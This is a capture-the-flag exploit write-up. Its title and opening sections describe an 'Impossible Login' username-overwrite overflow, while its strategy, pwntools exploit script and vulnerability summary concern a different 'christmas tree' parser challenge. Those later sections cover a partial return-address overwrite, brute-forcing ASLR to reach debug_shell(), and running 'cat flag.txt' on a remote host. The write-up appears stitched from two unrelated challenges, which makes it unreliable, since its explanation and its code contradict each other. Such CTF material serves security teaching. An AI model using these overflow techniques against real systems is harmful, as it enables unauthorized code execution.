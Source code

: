 # Impossible Login - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ImpossibleLogin.gif)

---

## Challenge Summary

The goal is to log in as `root`, which is normally blocked. Due to a stack overflow in the `password` input, it's possible to overwrite the `username` variable and bypass the restriction. By padding the password with `root` at the right offset, the program accepts the login and reveals the `root` flag.

## Binary Information

```bash
$ file logmein
```

![Alt text](img/2.png)

```bash
$ pwn checksec logmein
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

In IDA Pro, the `main` function performs the following:

- Prompts for a **username** using `scanf("%s", username)` into a 24-byte buffer.
- If the input equals `"root"`, login is denied via `strncmp(username, "root", 4)`.
- Then prompts for a **password**, read into a 32-byte buffer (`scanf("%s", password)`).
- Both variables are stored on the stack; `username` is located just after `password`.
- The `login()` function compares the input credentials to a list stored in a global array `creds[]` using `strncmp()`.

![Alt text](img/4.png)

![Alt text](img/5.png)

Because `scanf` does not enforce length restrictions, inputting a long password overflows into `username`, allowing us to spoof `"root"` even if the original username wasn't `"root"`. The comparison uses `strncmp()` with the real length of `user/pass`, so partial matches suffice. If credentials match, `motd()` prints a personalized flag.

![Alt text](img/6.png)

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)



while True:
    io = start()


    io.recvuntil(b'Welcome! What would you like to do? : ')
    io.sendline(b"display")
    io.recvuntil(b'Please enter your encoded christmas tree : ')
    io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
    for i in range(3) :
        io.recvline()

    try:
        io.sendline(b"cat flag.txt")
        flag = io.recvline().strip()
        #log.success(f"FLAG : {flag.decode()}")
        log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

        break

    except:
        io.close()


```

---

## Exploit Output

![Alt text](img/7.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
